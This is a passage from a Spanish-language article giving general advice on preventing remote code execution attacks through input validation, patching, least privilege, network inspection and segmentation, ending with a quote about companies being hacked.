La mayoría de los ataques RCE aprovechan vulnerabilidades como la inyección o deserialización insegura. Para prevenirlos, es fundamental validar y sanear todas las entradas del usuario, evitando el uso de funciones peligrosas como eval() o exec() que ejecutan contenido arbitrario.

==== 2. Gestión de Parches y Actualizaciones

Mantén sistemas operativos, aplicaciones y dependencias siempre actualizados. Muchas vulnerabilidades que permiten RCE ya son conocidas y cuentan con parches disponibles.

==== 3. Principio de Mínimos Privilegios

Durante las pruebas, observamos que los comandos se ejecutaban con privilegios de root. Para evitar esto, es importante que los servicios se ejecuten con los permisos mínimos necesarios, reduciendo así el impacto de un posible ataque.

==== 4. Desactivación de Funcionalidades Innecesarias

Deshabilita módulos, extensiones o plugins que no sean estrictamente necesarios. Cada componente extra aumenta la superficie de ataque y puede introducir vulnerabilidades.

==== 5. Gestión Segura de Memoria

Algunos ataques RCE explotan errores como los desbordamientos de búfer. Realiza análisis de seguridad periódicos para identificar fallos en la administración de memoria y corregirlos a tiempo.

==== 6. Inspección del Tráfico de Red

Los ataques RCE suelen realizarse de forma remota a través de la red. Utiliza herramientas de inspección profunda del tráfico (como WAF o firewalls de nueva generación) para bloquear intentos de explotación y detectar actividad remota sospechosa.

==== 7. Control de Acceso y Segmentación

Un atacante que consigue ejecutar código remotamente puede intentar moverse lateralmente en la red. La segmentación de red, el control de acceso y una arquitectura de confianza cero ayudan a limitar el alcance del atacante y proteger los sistemas más críticos.

----
"Existen dos tipos de empresas: las que han sido hackeadas y las que aún no saben que fueron hackeadas."

- John Chambers
----
